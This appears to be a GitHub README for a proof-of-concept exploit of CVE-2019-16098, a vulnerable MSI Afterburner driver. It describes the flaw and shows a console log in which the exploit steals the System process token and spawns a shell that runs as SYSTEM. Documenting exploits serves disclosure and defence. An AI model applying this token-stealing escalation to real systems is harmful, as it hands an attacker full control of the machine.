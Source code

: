 # CVE-2019-16098

The driver in Micro-Star MSI Afterburner 4.6.2.15658 (aka RTCore64.sys
and RTCore32.sys) allows any authenticated user to read and write to
arbitrary memory, I/O ports, and MSRs. This can be exploited for
privilege escalation, code execution under high privileges, and
information disclosure. These signed drivers can also be used to
bypass the Microsoft driver-signing policy to deploy malicious code.

For more updates, visit [CVE-2019-16098](https://nvd.nist.gov/vuln/detail/CVE-2019-16098)

**WARNING**: Hardcoded Windows 10 x64 Version 1903 offsets!

```
Microsoft Windows [Version 10.0.18362.295]
(c) 2019 Microsoft Corporation. All rights reserved.

C:\Users\Barakat\source\repos\CVE-2019-16098>whoami
Barakat

C:\Users\Barakat\source\repos\CVE-2019-16098>out\build\x64-Debug\CVE-2019-16098.exe
[*] Device object handle has been obtained
[*] Ntoskrnl base address: FFFFF80734200000
[*] PsInitialSystemProcess address: FFFFC288A607F300
[*] System process token: FFFF9703A9E061B0
[*] Current process address: FFFFC288B7959400
[*] Current process token: FFFF9703B9D785F0
[*] Stealing System process token ...
[*] Spawning new shell ...
Microsoft Windows [Version 10.0.18362.295]
(c) 2019 Microsoft Corporation. All rights reserved.

C:\Users\Barakat\source\repos\CVE-2019-16098>whoami
SYSTEM

C:\Users\Barakat\source\repos\CVE-2019-16098>
```

